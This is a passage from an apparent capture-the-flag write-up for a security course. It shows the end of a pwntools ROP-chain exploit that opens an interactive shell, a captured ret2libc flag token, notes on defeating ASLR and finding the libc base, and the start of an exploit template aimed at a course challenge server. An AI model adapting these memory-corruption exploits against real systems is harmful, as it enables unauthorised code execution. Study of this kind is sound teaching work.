 ```
    + p32(inc_eax)*11
    + p32(int_0x80)
)
p.recvline()
payload = fit({
    offset: chain
})
p.sendline(payload)
p.interactive()
```

ret2libc
================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNS1yZXQybGliYyIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiJhOTBkNTdmZC00MWJiLTRlMjEtOTg2Yy05MTEyNDU3NTE5MDQifQ.xPjh3kxeJ5BmINEjy9-wKq81-UOirLrZ2R8Uj2SK_0E}
General overview of problems faced
----------------------------------------------------------------
Have to find base address of libc
Libc versions are different on local and remote.
Have to run script multiple times to get a lucky ASLR seed.
Need to figure out how many bytes to write
Script/Command used
----------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './ret2libc' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 29471 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)


# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())
```